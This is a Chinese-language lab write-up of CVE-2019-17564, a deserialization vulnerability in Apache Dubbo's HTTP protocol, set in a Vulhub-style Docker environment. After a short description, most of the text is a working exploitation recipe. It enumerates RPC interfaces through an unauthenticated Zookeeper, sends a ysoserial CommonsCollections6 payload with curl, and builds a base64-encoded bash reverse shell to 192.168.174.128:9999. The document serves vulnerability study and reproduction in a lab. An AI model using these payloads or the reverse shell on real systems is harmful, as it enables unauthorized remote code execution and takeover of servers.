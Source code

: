 # Apache Dubbo Java 反序列化漏洞 CVE-2019-17564

## 漏洞描述

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 服务框架。RPC，全称为 Remote Procedure Call，即远程过程调用，它是一个计算机通信协议。它允许像调用本地服务一样调用远程服务。

Dubbo 可以使用不同协议通信，当使用 http 协议时，Apache Dubbo 直接使用了 Spring 框架的 `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` 类做远程调用，而这个过程会读取 POST 请求的 Body 并进行反序列化，最终导致漏洞。

在 Spring 文档中，对 `HttpInvokerServiceExporter` 有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞影响

```
Apache Dubbo 2.7.4及以前版本
```

Apache Dubbo 2.7.5 后 Dubbo 使用 `com.googlecode.jsonrpc4j.JsonRpcServer` 替换了 `HttpInvokerServiceExporter`。

## 环境搭建

执行如下命令启动一个 Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080`，服务器默认会返回 500 错误。

## 漏洞复现

利用该漏洞需要先知道目标 RPC 接口名，而 Dubbo 所有的 RPC 配置储存在 registry 中，通常使用 Zookeeper 作为 registry。如果能刚好找到目标的 Zookeeper 未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub 对外开放了 8080 端口和 2181 端口，其中 2181 即为 Zookeeper 的端口，本地下载 [Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台 Zookeeper 服务器。

依次执行以下命令下载、解压、使用 zkCli 工具：

```
$ wget https://dlcdn.apache.org/zookeeper/zookeeper-3.7.0/apache-zookeeper-3.7.0-bin.tar.gz
$ tar xvf apache-zookeeper-3.7.0-bin.tar.gz
$ cd apache-zookeeper-3.7.0-bin/bin
$ ./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用 `ls` 即可列出其中所有节点，包括 Dubbo 相关的配置：

![image-20220222214720363](images/202202222147467.png)

获取到 RPC 接口名为 `org.vulhub.api.CalcService`。直接用 ysoserial 生成 CommonsCollections6 的 Payload 作为 POST Body 发送到 `http://your-ip:8080/org.vulhub.api.CalcService` 即可触发反序列化漏洞：

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "touch /tmp/awesome_poc" > 1.poc

$ curl -XPOST --data-binary @1.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222220814317](images/202202222208473.png)

进入 docker，命令 `touch /tmp/awesome_poc` 执行成功：

![image-20220222220908304](images/202202222209355.png)

反弹 shell：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
```

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" > shell.poc

$ curl -XPOST --data-binary @shell.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222221020948](images/202202222210040.png)
